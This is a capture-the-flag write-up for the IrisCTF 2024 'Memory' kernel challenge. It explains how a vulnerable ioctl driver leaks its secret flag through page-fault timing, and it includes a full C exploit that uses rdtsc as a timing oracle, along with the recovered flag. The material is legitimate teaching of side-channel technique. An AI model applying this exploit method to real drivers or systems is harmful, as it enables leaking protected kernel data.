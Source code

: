 ```yaml
---
layout: post
title: "IrisCTF 2024 - Memory [Pwn]"
categories: ctf
tags: ikerl ctf pwn
date: 2024-01-09 19:00:00 +0100
author: ikerl
---
```


The provided code represents a kernel exploitation challenge, focusing on a vulnerable Linux device driver. The essential segment of the code is as follows:

```c
volatile const unsigned char data[] = "fakeflg{fake_flag_for_you}";
unsigned long user = 0;

long int device_ioctl(
		struct file *file,
		unsigned int ioctl_num,
		unsigned long ioctl_param)
{
	switch (ioctl_num) {

    case IOCTL_QUERY: {
      size_t user = ioctl_param >> 56;
      unsigned char* ptr = (unsigned char*)(ioctl_param & 0x00ffffffffffffff);
      if(__builtin_expect(user < sizeof(data), 1)) {
        unsigned char c;
        get_user(c, &(ptr[data[user]]));
        return 0;
	    }
    }
	}

	return 0;
}
```

This device driver expects a valid userland address as input. From this address, it extracts the `user` value and the userland buffer's address. Subsequently, the driver uses the `user` value to access various positions within a hardcoded flag in the driver's memory, extracting their values. The driver then utilizes the selected flag's value to determine and read a specific address in the userland buffer. For instance, if `user` is set to zero, the driver accesses the first position of the flag, retrieves its value, and then accesses the user's buffer at the address calculated by adding the flag's character value to the base address of the userland buffer. The challenge revolves around identifying the exact read position of the device driver into the user's buffer. If one can determine this position, it becomes possible to discover the characters of the flags.

So... `You can touch my flag but not see it.`

## Solution

In the context of user space, direct access to kernel exceptions is restricted. However, by measuring execution times, it becomes possible to infer instances when the kernel dedicates time to recover from and handle exceptions. After conducting a series of tests, a observation was made: the ioctl query execution time is notably lower when a valid and readable buffer is provided to read, in contrast to the scenario where an invalid or non-readable buffer address. This observed discrepancy in execution times serves as an oracle, enabling the identification of when the driver reads a valid address.

To leverage this oracle and successfully extract the flag, the following steps are taken:

1. **Memory Allocation:** Two contiguous memory pages, each of 4096 bytes, are allocated using the `valloc` function.

2. **Page Protection:** The `mprotect` function is employed to set the second page as non-readable.

3. **Oracle Exploitation:** A brute-force approach is implemented for each position of the flag. Different addresses of the user buffer are systematically sent to the ioctl query, varying the user buffer address for each flag position, and measures the consumed time during each iteration. When the driver starts accessing the unreadable page it will start to take longer so we can determine where exactly it is reading and, consequently, find out the value of the different characters of the flag.

This is the exploit used to brute force the flag by abusing the above mentioned oracle:

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <stdint.h>

#define MAJOR_NUM 100

#define IOCTL_QUERY 0

uint64_t get_timestamp() {
    uint32_t low, high;
    asm volatile ("rdtsc" : "=a" (low), "=d" (high));
    return ((uint64_t)high << 32) | low;
}

int main(void)
{
    char * a = valloc(4096*2);

    int status = mprotect(&a[0], 4096, PROT_NONE);
    if (status != 0) { perror("mprotect"); exit(1); }

    int fd = open("/dev/primer", O_RDONLY );
    if (fd < 0) {
        perror("Device error");
        return EXIT_FAILURE;
    }

    int query_number = 2148033536;
    int calibration_time = 0;

    for (size_t user = 0; user <= 40; user++) {
        for (int test = 0; test <= 130; test++)
        {
            // Brute-force approach: varying user buffer address for each flag position
            unsigned char *ptr = a+4096-test;
            unsigned long ioctl_param = ((unsigned long)user << 56) | (unsigned long)ptr;
            size_t n;

            uint64_t start_time = get_timestamp();
            for (int i = 0; i <= 1000; i++) {
                int b = ioctl(fd, query_number, ioctl_param);
            }
            uint64_t end_time = get_timestamp();

            if (end_time-start_time < calibration_time || calibration_time == 0) {
                calibration_time = end_time-start_time;
            }

            if (end_time-start_time > calibration_time*3) {
                // Character extraction and identification
                printf("%c",test-1);
                break;
            }
            
        }
    }

    return 0;
}
```

`irisctf{the_cache_always_remembers}`